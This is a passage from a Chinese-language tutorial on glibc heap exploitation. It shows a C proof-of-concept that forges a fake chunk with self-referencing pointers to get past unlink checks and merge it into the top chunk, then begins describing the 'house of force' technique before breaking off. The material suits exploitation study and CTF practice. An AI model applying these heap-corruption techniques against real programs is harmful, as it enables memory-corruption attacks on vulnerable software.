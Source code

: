 ```c
    fake_chunk[1] = (long)real_a - (long)&fake_chunk[0] + 1; // 修改fake_chunk的size
    // 在释放的时候，后向合并时会将fake_chunk进行unlink
    // 需要修改fake_chunk的fd bk fd_nextsize bk_nextsize指针来绕过unlink检查
    // unlink有安全检查：P->fd->bk == P, P->bk->fd == P，同时fd_nextsize也是如此
    // 将fake_chunk的指针统统指向本身，绕过一切
    fake_chunk[2] = &fake_chunk[0];
    fake_chunk[3] = &fake_chunk[0];
    fake_chunk[4] = &fake_chunk[0];
    fake_chunk[5] = &fake_chunk[0];

    free(a);                 // 释放chunk a，如此一来先合并fake_chunk，再与top chunk合并
    long *b = malloc(0x100); // 再申请一个chunk
    printf("the addr of new malloc is %p.\n", b - 2);


    // 下面是在堆上伪造的。

    // long *a = malloc(0xf0); // 申请一个大小为0x100的chunk，并且最终我们希望它成为top chunk
    // printf("the addr of chunk a is %p.\n", a - 2);

    // // 接下来，我们申请3个大小为0x100的chunk
    // malloc(0xf0);
    // malloc(0xf0);
    // malloc(0xf0);

    // // 我们再申请最后一个大小为0x100的chunk，那么这个chunk b将会紧邻top chunk
    // long *b = malloc(0xf0);

    // // 攻击
    // b[-2] += 0x400; // 将chunk b的prev_size增大0x400
    // b[-1] = 0x100;  // 修改chunk b 的prev_inuse为0
    // a[-1] = 0x401;  // 修改chunk a的size为0x400
    // a[0] = a - 2;
    // a[1] = a - 2;
    // a[2] = a - 2;
    // a[3] = a - 2;

    // free(b); // 释放 chunk b，这样一来chunk a成为top chunk
    // long *c = malloc(0x100);
    // printf("the addr of chunk c is %p.\n", c - 2);
    return 0;
}
```

## house of force

一句话描述该漏洞，在`glibc 2.23`下，通过控制`top chunk`的`size`域为一个特别大的值，导致可以通过`malloc`特别大的值或者负数来将`top chunk`的指针指向任意位置。

你需要进行控制的：
